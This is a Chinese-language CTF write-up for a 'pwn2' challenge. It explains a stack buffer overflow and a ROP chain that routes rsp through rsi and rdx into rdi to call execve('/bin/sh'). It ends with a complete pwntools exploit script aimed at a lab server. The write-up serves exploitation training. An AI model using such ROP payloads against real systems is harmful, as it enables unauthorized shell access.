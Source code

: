## pwn2
本題可以buffer overflow進行ROP攻擊，`rax`可控，`/bin/sh`必須包含在payload中放到stack上，而`rsp`只能傳遞到`rsi`，因此先試著用`execveat(0, '/bin/sh, 0, 0, 0)`呼叫。

但嘗試的過程中發現`execveat()`的第5個參數(flag)需為0，在`r8`，且`r8被設為字串不可控制，因此放棄此作法。

若要`exec()`，則`rsp`必須傳遞到`rdi`，但並沒有`mov rdi, rsi`的gadget可用，最後是在第一次payload中先`return`回`read_input`中的`mov rdx, rsi`將`rsi`傳遞至`rdx`，讀取輸入(送空白)，再跳回到`main`開頭，`push rdx`然後一路回到`read_input`，此時stack如下：

```
-------stack frame---------|--payload2--
rdx      -- main (&/bin/sh)| ---------stop here
rsi                        | pop rdi
rdi                        | SYS_exec
0x4000a9 -- magic          | pop rax (any)
rbp          --->          | ...
0x4000dc -- read_input     | ...

rsp -> rsi -> rdx -> stack -> rdi
```
再次buffer overflow，蓋掉部份目前的frame，使其從magic return時跳至gadget，而先任意pop一個暫存器(exploit中直接在此時將`rax`設為`exec()`的syscall)，接著再`ret`回`main`尾部的`pop rdi`，此時原本的`rdx`(`rsp`)就會傳遞到`rdi`，之後再將`rsi`, `rdx`都設定為`0`，然後跳至syscall即可。

注意payload2會蓋掉原本payload1中的`/bin/sh`，需要計算好相對位置再包在payload2裏面送。

### exploit
```python
#!/usr/bin/env python3
from pwn import *

context.update(arch='amd64', os='linux')
binary = ELF('start_revenge')
rop = ROP(binary)

payload = b'/bin/sh\x00'
payload += cyclic(56 - len(payload)).encode()
payload += p64(0x400116) # rsp -> rdx
payload += p64(0x4000a1) # push rdx -> #2ndpayload
payload += p64(0) # rsi = 0
payload += p64(0) # rdx = 0
payload += flat(rop.rax.address, constants.SYS_execve)
payload += p64(0x4000bf) # execve

payload2 = b''
payload2 += cyclic(16 - len(payload2)).encode()
payload2 += b'/bin/sh\x00'
payload2 += cyclic(56 - len(payload2)).encode()
payload2 += flat(rop.rax.address, constants.SYS_execve)
payload2 += p64(0x4000a9) # pop rdi; pop rsi; pop rdx;

r = remote('10.13.2.43', 20739)
r.send(payload)
r.send(b'')
r.send(payload2)
r.interactive()
```

